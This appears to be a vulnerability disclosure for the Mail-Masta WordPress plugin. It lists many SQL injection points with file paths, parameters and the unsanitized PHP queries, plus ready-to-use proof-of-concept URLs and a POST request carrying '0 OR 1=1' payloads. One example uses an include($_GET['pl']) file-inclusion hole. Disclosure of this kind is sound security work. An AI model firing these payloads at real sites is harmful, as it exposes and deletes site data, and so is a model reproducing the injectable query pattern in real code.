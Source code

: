 Mail-Masta SQL Injection
=========================================
Page: ./wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

    http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


csvexport.php:

    $list_id=$_GET['list_id'];
    global $wpdb;
    $mail_subscribers = $wpdb->prefix . "masta_subscribers";
    $masta_list = $wpdb->prefix . "masta_list";
    $check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id";
    $check_list="SELECT * FROM $masta_list WHERE list_id= $list_id";
    $wp_list=$wpdb->get_results($check_sql);
    $wp_list_s=$wpdb->get_results($check_list);



=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

    http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


view-list.php:

    global $wpdb;
    $list_id = $_GET['filter_list'];
    $masta_list = $wpdb->prefix . "masta_list";
    $masta_subscribers = $wpdb->prefix . "masta_subscribers";
    $listdata = $wpdb->get_results( $wpdb->prepare("SELECT * FROM $masta_list WHERE list_id= $list_id",$query));
    $list_subscribers = $wpdb->get_var( $wpdb->prepare("SELECT COUNT( `list_id` ) FROM $masta_subscribers WHERE list_id= $list_id AND status=1",$query));

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

    http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


count_of_send.php:

    include($_GET['pl']);
    global $wpdb;
    $camp_id=$_POST['camp_id'];
    $masta_reports = $wpdb->prefix . "masta_reports";
    $count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");


=========================================


Page: ./wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

campaign_save.php:

    $list_id=$_POST['list_id'];
    $check_list = $wpdb->get_var("SELECT count(id) FROM wp_masta_subscribers where list_id=$list_id");


POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/view-campaign-list.php (Requires Wordpress admin)

GET Parameter: id

	Line 109: 	$campaigndata = $wpdb->get_results( "SELECT * FROM $masta_campaign WHERE camp_id = $camp_id");
	Line 111: 	$totals = $wpdb->get_results( "SELECT count(*) ts FROM $masta_report WHERE camp_id = $camp_id and status=1");
	Line 113: 	$totalm = $wpdb->get_results( "SELECT count(*) tm FROM $masta_report WHERE camp_id = $camp_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/view-campaign.php (Requires Wordpress admin)

GET Parameter: id

	Line 39: 	$campaigndata = $wpdb->get_results( "SELECT * FROM $masta_campaign WHERE camp_id = $camp_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/add_member.php (Requires Wordpress admin)

GET Parameter: filter_list	

	Line 16: 	$list_form_data = $wpdb->get_results( "SELECT * FROM $masta_list WHERE list_id = $list_id ");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/edit-list.php (Requires Wordpress admin)

GET Parameter: id	

	Line 21: 	$list_ans= $wpdb->get_results("select * from $mail_list where list_id=$list_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/edit_member.php (Requires Wordpress admin)

GET Parameters: filter_list, member_id

	Line 81: 	$list_form_data = $wpdb->get_results( "SELECT * FROM $masta_list WHERE list_id = $list_id ");
	Line 89: 	$list_subs = $wpdb->get_results( "SELECT * FROM $masta_subs WHERE list_id = $list_id and id = $member_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/campaign-delete.php 

GET Parameter: id

	(./wp-content/plugins/mail-masta/inc/mail-campaign-data.php)
	Line 1303: 	$camp_id = $_GET["id"];
	Line 4: 	$result = $wpdb->query($wpdb->prepare("DELETE FROM $masta_campaign WHERE camp_id = $camp_id limit 1"));

=========================================

Page: ./wp-content/plugins/mail-masta/inc/subscriber_list.php 

POST Parameter: list_id, subscriber_email

	Line 25: 	$check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id and email = '$email'";
	Line 27: 	$check_available = $wpdb->get_results($check_sql);
	Line 57: 	$list_form_data = $wpdb->get_results("SELECT * FROM $masta_list WHERE list_id = $list_id ");

=========================================


